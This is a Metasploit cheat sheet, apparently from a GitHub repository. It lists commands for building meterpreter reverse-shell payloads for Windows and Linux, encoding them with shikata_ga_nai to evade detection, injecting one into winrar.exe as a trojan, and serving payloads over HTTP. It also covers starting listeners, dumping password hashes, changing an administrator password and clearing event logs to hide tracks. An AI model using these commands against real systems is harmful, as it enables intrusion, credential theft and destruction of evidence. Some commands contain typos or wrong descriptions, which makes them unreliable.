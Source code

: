 - __```service postgresql start && msfconsole```__
- __```search <name>```__
- __```sessions -i <UID>```__



- __`search type:auxiliary name:smb`__
- __`db_import /root/result`__
- __`db_nmap -A -Pn -T4 ,ip.`__
- __`hosts`__
- __`services`__

## using load wmap in msfconsole

- __`load wmap`__
- __`wmap_sites -h`__
- __`wmap_sites -a <target_ip>`__
- __`wmap_targets -h`__
- __`wmap_targets -t http://<target_ip>`__
- __`wmap_sites -l`__
- __`wmap_run -h`__
- __`wmap_run -t`__
- __`wmap_vulns -h`__
- __`wmap-vulns -l`__

### msfvenom
- __`msfvenom --list payloads`__
##### Windows payload
- __`msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f exe > /home/kali/Desktop/payloadx86.exe`__
- __`msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f exe > /home/kali/Desktop/payloadx64.exe`__
##### Linux payload
- __`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f elf > ~/Desktop/payloadx86`__
- __`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f elf > ~/Desktop/payloadx64`__
  - > __we have create a payload and now we should set the listern in msfconsole__
  - __`use multi/handler`__
  - __`set payload windows/meterpreter/reverse_tcp`__
  - __`exploit`__


### Encoding Payloads with Msfvenom
##### Windows
- __`msfvenom --list encoders`__
- __`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -e x86/shikata_ga_nai -f exe > ~/Desktop/payloadx86.exe`__
- __`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -i 10 -e x86/shikata_ga_nai -f exe > ~/Desktop/payloadx86.exe`__
  - __`-i` iterations__
  - __`-e` endcode__

##### Linux
- __`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -i 10 -e x86/shikata_ga_nai -f elf > ~/Desktop/payloadx86`__


### Injecting Payloads into windows Portable Executables
- __`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -i 10 -e x86/shikata_ga_nai -f exe -x winrar.exe > ~/Desktop/payloadx86.exe`__
  - __`-x` injecting payload__

- __`sudo python -m SimpleHTTPServer 80`__
```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <youip>
set LPORT 4444
exploit
```

### Automating Metasploit with Resource Scripts
  - __create a file handler.rc__
    - __`nano handler.rc`__
  - __writing the command that you want to automat__
    ```use multi/handler set payload windows/meterpreter/reverse_tcp set LHOST <yourip> LPORT 444 exploit```
  - __`msfconsole -r handler.rc`__
    - __it will run automatically without typing__

  - __can do this form the msfconsole also__
    - __`resource ~/Desktop/handler.rc`__
    - __we have one more option called `makerc`__
      - __`makerc` will save the pervious command in .rc file that you entered in the msfconsole__
        - __`makerc /home/kali/Desktop/protscan.rc`__
# For linux
- __`getuid`__
- __`getenv PATH`__
- __`getenv TERM`__
- __`search -d /usr/bin -f *backdoor*`__
- __`search -f *.jpg`__
- __`search -f *.php`__

# For Windows
- __`show_mount`__
- __`ps`__
- __`migrate explorer.exe`__
- __`pgrep explorer.exe`__
- __`hashdump`__
__Down below command are for the windows target system after login using meterpreter using shell__
  - __`net users`__
  - __`net localgroup administrators`__
  - __`net localgroup administrators password123` Changing passoword__
- __you can clear all the logs in the windows target system__
  - __type the below command in meterpreter__
  - __`clearev`__
 
__displaying mounted drive in windows system__
  - __`show_mount`__




